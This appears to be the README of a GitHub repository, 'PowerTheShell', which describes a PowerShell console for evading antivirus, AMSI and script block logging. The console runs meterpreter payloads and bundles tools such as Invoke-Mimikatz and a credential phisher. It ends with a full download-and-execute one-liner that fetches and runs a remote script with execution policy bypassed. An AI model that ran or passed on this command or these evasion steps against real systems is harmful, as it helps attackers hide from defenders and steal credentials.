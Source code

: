# PowerTheShell

This repository was created for teaching / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize trace in EventViewer

The main script Console-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

The main script also performs the necessary commands for protecting our operational security:

1. Script block logging bypass by Ryan Cobb (@cobbr_io)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.
The command necessary for Script block logging bypass are also obfuscated not for evade AMSI but for not leave trace on EventViewer ('ScriptBlockLogging' can be found in the variable 'Scriptblock.signatures' ). 


This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Powershell Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. The customization performed do not compromise the signature of the scripts.
In order to 

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Console-Setup.ps1'))"
